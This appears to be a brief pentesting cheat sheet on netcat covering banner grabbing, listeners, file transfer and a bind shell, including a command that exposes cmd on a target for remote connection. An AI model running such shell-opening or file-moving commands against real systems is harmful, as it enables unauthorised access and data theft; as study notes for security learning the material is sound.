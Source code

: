# Netcat
TCP/IP swiss army knife

Banner Grabbing -- ```nc -nv (ip address) (port)``` 
Listener -- ```nc -lnv (ip address) (port)``` 

Sending and receiving files  
**Listening** - ```nc -lvnp 123 > (filename)```  
**Pulling file** -- ```nc -nv (ip address) (port) < (filename)```

### Bind Shell
Attacker connects directly to a system  
Bind shells require a listener from the targets machine.  
On target -- ```nc.exe -lvnp 1234 -e cmd```  
Connecting with bind shell -- ```nc -nv  (target IP) (port number)```  
